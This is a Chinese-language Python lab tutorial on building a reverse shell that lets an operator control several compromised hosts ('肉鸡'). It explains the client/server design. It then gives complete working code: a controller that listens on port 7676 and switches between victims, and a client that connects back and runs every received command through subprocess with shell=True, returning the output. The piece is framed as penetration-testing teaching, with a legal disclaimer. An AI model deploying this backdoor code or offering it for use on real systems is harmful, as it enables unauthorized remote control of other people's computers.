






# 第 1 节 Python3 实现可控制肉鸡的反向 Shell

## 一、实验说明

### 1\. 实验介绍

本实验将带领大家用 Python 实现一个可以管理多个肉鸡的反向 Shell，为什么叫反向 Shell 呢？反向就是肉鸡作为 `Client` 主动连接到我们的 `Server` 端，以实现对多个远程主机的管理！

注：本系列教程旨在教大家用 Python 实现渗透测试工具的思路，并非成熟工具，如用于非法目的，自行承担法律责任。

### 2\. Python 版本

*   Python 3.x

### 3\. 知识点

实验中将会学习并实践以下知识点：

1.  了解 TCP 协议
2.  了解 C/S 结构程序设计
3.  Python socket 模块的使用
4.  Python subprocess 模块的使用

### 4\. 效果图



## 二、理论基础

以下内容整理自百度百科，参考链接：

*   [C/S 结构](http://baike.baidu.com/link?url=XSxfs13sfncAC61SRGoJ0JQUt1DJlx44gGRy09faUSvSjIhfESIvDyFEyqJj-rIsFR_2pwoEIVmR884dsDoHyq)
*   [TCP（传输控制协议）](http://baike.baidu.com/link?url=WeDOV5f8D8pL9bYD_DaF8blpu4GkYDKylsXQL0tshX7y_aUkjPJT7bg1-MKkRvQRsLviLW7dO1nohw4WRQ95XpLpiqC-BbJ7IkFJiBBiR1G)

### 1\. C/S 结构程序设计

C/S 结构，即大家熟知的客户机和服务器结构。它是软件系统体系结构，通过它可以充分利用两端硬件环境的优势，将任务合理分配到 Client 端和 Server 端来实现，降低了系统的通讯开销。目前大多数应用软件系统都是 Client/Server 形式的两层结构，由于现在的软件应用系统正在向分布式的 Web 应用发展，Web 和 Client/Server 应用都可以进行同样的业务处理，应用不同的模块共享逻辑组件；因此，内部的和外部的用户都可以访问新的和现有的应用系统，通过现有应用系统中的逻辑可以扩展出新的应用系统。这也就是目前应用系统的发展方向。

本次实验就是基于 C/S 结构的一个应用。很多有名的远程控制工具都是基于 C/S 结构开发的，比如：灰鸽子、冰河、teamViewer 等等。但是我们应该将肉鸡端作为 Server 还是 Client 呢？通常情况下是将 Client 作为控制端，Server 作为被控端。这里我们将采用反向连接的方式，将 Server 作为控制端，Client 作为被控端。当然，这两种方式都可以实现我们本次实验的功能。这里我采用反向连接的方式主要是考虑到肉鸡在内网中，我们是无法直接连接到被控端的。如果用反向连接的方式，尽管被控端在内网中，只要我们不在内网中，或者我们做了内网端口映射、动态域名等处理之后，被控端都是可以连接到主控端的。虽然我们在内网中也要进行相应的设置，不过主动权在我们这里总比被控端需要设置这些更方便。

### 2\. TCP（传输控制协议）

TCP 提供一种面向连接的、可靠的字节流服务。面向连接意味着两个使用 TCP 的应用（通常是一个客户和一个服务器）在彼此交换数据包之前必须先建立一个 TCP 连接。这一过程与打电话很相似，先拨号振铃，等待对方摘机说“喂”，然后才说明是谁。在一个 TCP 连接中，仅有两方进行彼此通信，而且广播和多播不能用于 TCP。由于这里需要传输的数据量比较小，对传输效率影响不大，而且 Tcp 相对来说比较稳定！所以本次实验课程将采用 Tcp 协议来实现多客户端的反向 Shell。

### 3\. 可控制肉鸡反向 Shell 实现方案

本次实验将基于 Tcp 实现一个 C/S 结构的应用，Client 作为被控端主动连接控制端，Server 作为控制端则等待肉鸡连接。具体实现方案如下：

#### Server（控制端）

Server 作为控制端，我们首先要用 Python 的 Socket 模块监听本地端口，并等待被控端连接，由于我们要实现多个肉鸡的反向 Shell，所以我们需要 维护连接的主机列表，并选择当前要发送命令的肉机，接下来我们就可以通过 socket 给指定的主机发送 Shell 命令了。

#### Client（被控端）

Client 作为被控端，首先我们要通过 Python 的 Socket 模块连接到控制端，之后只要一直等待控制端发送 Shell 命令就可以了，当接收到控制端发送的命令之后，用 Python 的 subprocess 模块执行 Shell 命令，并将执行命令的结果用 socket 发送给控制端。

## 三、代码实现

看了上面这么多理论知识，同学们是不是觉得有些厌烦了？别急，现在同学们就跟着我的思路来看一下代码的实现过程。另外说一下，在这里我可能会把被控端叫作肉鸡，意思其实是完全被我们控制的主机。在这里我们可以把肉鸡（机）和被控端当成一回事来看待，因为你能获得主机的 Shell 一般就可以完全控制这台主机了。

### 1\. 控制端（Server）

控制端需要实现等待被控端连接、给被控端发送 Shell 命令，并且可以选择和切换当前要接收 Shell 命令的肉鸡（被控端）。所以，首先我们需要创建一个 socket 对象，并监听`7676`端口，代码如下：

```py
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) # 创建一个 Tcp Socket
    s.bind(('0.0.0.0',7676)) #绑定 7676 端口，并与允许来自任意地址的连接
    s.listen(1024) #开始监听端口 
```

可能大家都比较熟悉 socket 的用法，这里我只说一下创建 socket 对象时两个参数的含义，一般我都会在代码的注释中同时解释每段代码的含义。socket.AF*INET 代表使用 IPv4 协议，socket.SOCK*STREAM 代表使用面向流的 Tcp 协议，也就是说我们创建了一个基于 IPv4 协议的 Tcp Server。 接下来当有肉鸡连接的时候我们需要获取肉机的 socket，并记录起来，以便和肉鸡进行通信。我们先来看下代码：

```py
def wait_connect(sk):
    global clientList
    while not quitThread:
        if len(clientList) == 0:
            print('Waiting for the connection......')
        sock, addr = sk.accept()
        print('New client %s is connection!' % (addr[0]))
        lock.acquire()
        clientList.append((sock, addr))
        lock.release() 
```

当有多个肉机连接到控制端时，我们要记录肉机的 socket 对象，以便我们可以选择不同的操作对象，我们再来看一看是怎样实现选择已经连接的肉机，代码如下：

```py
clientList = []             #连接的客户端列表
curClient = None            #当前的客户端

def select_client():        #选择客户端
    global clientList
    global curClient

    for i in range(len(clientList)):    #输出已经连接到控制端的肉机地址
        print('[%i]-> %s' % (i, str(clientList[i][1][0])))
    print('Please select a client!')

    while True:
        num = input('client num:')      #等待输入一个待选择地址的序号
        if int(num) >= len(clientList):
            print('Please input a correct num!')
            continue
        else:
            break

    curClient = clientList[int(num)]    #将选择的 socket 对象存入 curClient 中 
```

通过记录已经连接肉鸡的 socket，并将选择的 socket 赋值给 curClient 就实现了多客户端的选择。 现在我们就可以实现命令的发送和接收了：

```py
def shell_ctrl(socket,addr):                #负责发送 Shell 命令和接收结果
    while True:
        com = input(str(addr[0]) + ':~#')   #等待输入命令
        if com == '!ch':                    #切换肉机命令
            select_client()
            return
        if com == '!q':                     #退出控制端命令
            exit(0)
        socket.send(com.encode('utf-8'))    #发送命令的字节码
        data = socket.recv(1024)            #接收反回的结果
        print(data.decode('utf-8'))         #输出结果 
```

这里有一点需要注意一下，这里我们对接收和发送统一都用`utf-8`进行编码和解码，同样在客户端中也采用同样的编码才会保证接收和发送的结果正确。至于发送命令这部分主要就是等待用户输入命令然后判断是不是切换肉鸡或者是退出命令，如果不是就把命令发送给客户端。到此我们的控制端基本的组成部分就实现完成了！

### 2\. 被控端（Client）

被控端需要实现连接到控制端、执行控制端发送过来的命令并将执行命令后的结果发送给控制端。与控制端相比被控端要简单的多，下面我们就用一个函数来实现上面我们提到的功能，代码如下：

```py
def connectHost(ht,pt): 
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)    #创建 socket 对象
    sock.connect((ht,int(pt)))  #主机的指定端口
    while True:
        data = sock.recv(1024)  #接收命令
        data = data.decode('utf-8') #对命令解码
        #执行命令
        comRst = subprocess.Popen(data,shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)
        #获取命令执行结果
        m_stdout, m_stderr = comRst.communicate()
        #将执行命令结果编码后发送给控制端
        sock.send(m_stdout.decode(sys.getfilesystemencoding()).encode('utf-8'))
        time.sleep(1)
    sock.close() 
```

通过这一个函数就实现了被控端的所有功能，是不是很简单？这个函数的核心其实就是 subprocess.Popen()这个函数，这里我简单介绍一下。subprocess.Popen()可以实现在一个新的进程中启动一个子程序，第一个参数就是子程序的名字，shell=True 则是说明程序在 Shell 中执行。至于 stdout、stderr、stdin 的值都是 subprocess.PIPE，则表示用管道的形式与子进程交互。还有一个需要注意的地方就是在给控制端发送命令执行结果的时候，这里先将结果用本地系统编码的方式进行解码，然后又用`utf-8`进行编码，以避免被控端编码不是`utf-8`时，控制端接收到的结果显示乱码。

至此我们就将控制端和被控端都实现完了，代码很容易理解，代码量也不多。下面我们来整合全部代码！

## 四、完整代码

### 1.控制端

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
import socket
import threading

clientList = []             #连接的客户端列表
curClient = None            #当前的客户端
quitThread = False          #是否退出线程
lock = threading.Lock()

def shell_ctrl(socket,addr):
    while True:
        com = input(str(addr[0]) + ':~#')
        if com == '!ch':
            select_client()
            return
        if com == '!q':
            quitThread = True
            print('-----------------------* Connection has ended *--------------------------')
            exit(0)
        socket.send(com.encode('utf-8'))
        data = socket.recv(1024)
        print(data.decode('utf-8'))

def select_client():
    global clientList
    global curClient
    print('--------------* The current is connected to the client: *----------------')
    for i in range(len(clientList)):
        print('[%i]-> %s' % (i, str(clientList[i][1][0])))
    print('Please select a client!')

    while True:
        num = input('client num:')
        if int(num) >= len(clientList):
            print('Please input a correct num!')
            continue
        else:
            break

    curClient = clientList[int(num)]

    print('=' * 80)
    print(' ' * 20 + 'Client Shell from addr:', curClient[1][0])
    print('=' * 80)

def wait_connect(sk):
    global clientList
    while not quitThread:
        if len(clientList) == 0:
            print('Waiting for the connection......')
        sock, addr = sk.accept()
        print('New client %s is connection!' % (addr[0]))
        lock.acquire()
        clientList.append((sock, addr))
        lock.release()

def main():
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(('0.0.0.0',7676))
    s.listen(1024)

    t = threading.Thread(target=wait_connect,args=(s,))
    t.start()

    while True:
        if len(clientList) > 0:
            select_client()  # 选择一个客户端
            shell_ctrl(curClient[0],curClient[1]) #处理 shell 命令

if __name__ == '__main__':
    main() 
```

### 2\. 被控端

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

import socket
import subprocess
import argparse
import sys
import time
import threading

def connectHost(ht,pt):
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.connect((ht,int(pt)))
    while True:
        data = sock.recv(1024)
        data = data.decode('utf-8')
        comRst = subprocess.Popen(data,shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)
        m_stdout, m_stderr = comRst.communicate()
        sock.send(m_stdout.decode(sys.getfilesystemencoding()).encode('utf-8'))
        time.sleep(1)
    sock.close()

def main():
    parser = argparse.ArgumentParser()  #命令行参数解析对象
    parser.add_argument('-H',dest='hostName',help='Host Name')
    parser.add_argument('-p',dest='conPort',help='Host Port')

    args = parser.parse_args()          #解析命令行参数
    host = args.hostName
    port = args.conPort

    if host == None and port == None:
        print(parser.parse_args(['-h']))
        exit(0)

    connectHost(host,port)              #连接到控制端

if __name__ == '__main__':
    main() 
```

我在被控端的 main()函数中使用了命令行解析模块`argparse`，有不懂得怎么用的同学，可以看一下我的另一个课程[Python 实现 FTP 弱口令扫描器](https://www.shiyanlou.com/courses/579),或者查看 Python 的官方文档，来学习[argparse](https://docs.python.org/3/library/argparse.html?highlight=argparser)的用法。

至此我们的代码就全部完成了！当然这只是反向 Shell 的核心，如果同学们对反向 Shell 有兴趣，可以继续完善想要的功能。

## 五、程序测试

现在我们来测试我们的程序是否达到了我们想要的功能。在编写好代码之后首先运行我们的控制端脚本，效果如下图所示：



控制端脚本运行之后首先会等待被控端的连接，只有被控端连接之后，我们才可以对控制端进行命令的输入。所以，同学们快跟着我把被控端脚本运行起来吧！运行后的效果如下图所示：



忘了告诉大家了，被控端运行是需要给定要连接的 ip 地址和端口号的，如果运行时给的参数不全，会提示你参数的帮助信息。这样做也是方便被控端可以连接到不同地址的主机。这回我运行被控端脚本的时候可千万别忘了加上参数了！这里我们都是在实验楼的实验环境中测试，所以我们就连接本地地址`127.0.0.1`和控制端监听的端口`7676`。运行之后让我们看一下控制端是否可以看到有新的连接加入！控制端效果如下图所示：


可以看到控制端已经知道有新的连接加入了，并且提示我们选择一个`client`，目前只有一个连接，我么那只能选择提示的序号`0`,不过我们这里要先测试一下输入超出范围的序号会有怎样的结果：



输入序号`1`之后提示我们输入一个正确的序号，好吧！现在我们就输入一个提示的序号`0`，看看会有什么结果：



终于看到我们想要的界面了，现在我们就可以进行命令的输入了！开始吧，输入一个大家都比较熟悉的命令`ls /`:



可以看到程序确实返回了正确的结果，接下来同学们就来试试自己熟悉的命令吧！

## 六、总结

通过本次实验的学习，我们应该掌握以下知识点：

1.  socket 服务端程序的编写方法
2.  socket 客户端程序的编写方法
3.  利用 Python 的 subprocess 模块执行 Shell 命令
4.  反向 Shell 的基本实现思路

## 七、参考文献

*   《Python 绝技--运用 Python 成为顶级黑客》
*   《Python 黑帽子-- 黑客与渗透测试编程之道》